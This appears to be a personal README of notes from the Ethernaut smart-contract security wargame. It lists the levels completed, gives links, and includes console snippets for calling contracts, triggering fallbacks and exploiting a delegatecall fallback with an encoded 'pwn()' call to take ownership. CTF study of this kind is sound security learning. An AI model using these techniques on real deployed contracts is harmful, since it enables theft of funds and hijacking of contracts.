 ## Website
https://ethernaut.openzeppelin.com/

## Completed
0. Hello Ethernaut
1. Fallback
2. Fallout
3. CoinFlip

## Other useful sites:

https://www.pauric.blog/How-To-Hack-Ethereum-Contracts-The-Easy-Way/

https://trufflesuite.com/docs/truffle/getting-started/interacting-with-your-contracts

## Other Notes:

player is you
get the balance using
```
getBalance(player)
```

interact with the `contract`
```
(await contract.contributions(player)).toString();
await contract.contribute.sendTransaction({value: toWei(.0009)})
```
contract is a truffle object. can do fallback methods using
```
contract.sendTransction({value: 50000000});
```


### Delegate call with encoding of function signature
```
  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
  
  # Called with
  await contract.sendTransaction({data: web3.eth.abi.encodeFunctionSignature("pwn()")})
  
```

